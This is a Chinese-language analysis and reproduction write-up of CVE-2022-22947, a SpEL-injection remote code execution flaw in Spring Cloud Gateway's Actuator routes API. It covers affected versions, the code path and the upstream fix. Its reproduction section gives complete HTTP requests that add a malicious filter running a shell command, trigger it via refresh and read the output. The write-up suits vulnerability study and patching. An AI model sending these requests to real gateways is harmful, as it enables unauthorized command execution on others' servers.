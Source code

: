 # CVE-2022-22947 SpringCloudGateWay 远程代码执行

## 影响版本

Spring Cloud Gateway： 
3.1.0 
3.0.0 to 3.0.6 
Older, unsupported versions are also affected 

## 环境搭建

本地调试推荐：

https://github.com/spring-cloud/spring-cloud-gateway/tree/v3.1.0

单纯复现漏洞直接用p牛的docker环境：

https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947

## 分析

在官网可以看到SpringCloudGateWay支持通过Actuator端点对网关进行监控和交互，其中还可以删除和创建特定的路由。

https://docs.spring.io/spring-cloud-gateway/docs/current/reference/html/

![](img/1.png)

还有一些路由需要的参数

```json
{
  "id": "first_route",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"/first"}
  }],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

以及对上面参数的解释

| Path         | Type   | Description                                                  |
| :----------- | :----- | :----------------------------------------------------------- |
| `id`         | String | The route ID.                                                |
| `predicates` | Array  | The collection of route predicates. Each item defines the name and the arguments of a given predicate. |
| `filters`    | Array  | The collection of filters applied to the route.              |
| `uri`        | String | The destination URI of the route.                            |
| `order`      | Number | The route order.                                             |

filter参数可以定义该路由的Filter,并且可以传递Filter的参数。 SpringCloudGateWay内置了28个Filter，而其中所有的`GateWayFilter`都继承了`ShortcutConfigurable`接口，里面有一个`getValue`静态方法,可以看到里面执行了SPEL表达式,`expression.getValue(context)`![](img/2.png)

调用该`getValue`的地方在该接口的`ShortcutType`枚举类型中的`normalize`方法![](img/3.png)

调用`normalize`的地方则是在对每一个Filter初始化过程中对Filter属性进行解析时

![](img/4.png)

## 复现

1.利用Actuator API添加一个Filter,为该Filter传入一个参数,其值为恶意SPEL表达式

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

2. 利用`actuator/gateway/refresh`接口刷新网关配置,重新加载每一个Filter,导致在加载添加的Filter时解析我们设置的SPEL表达式造成RCE

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

3. 查看回显

```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](img/5.png)

4. 删除恶意路由

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

## 修复

https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e

从官方链接可以看出使用了`SimpleEvaluationContext`代替了`StandardEvaluationContext`
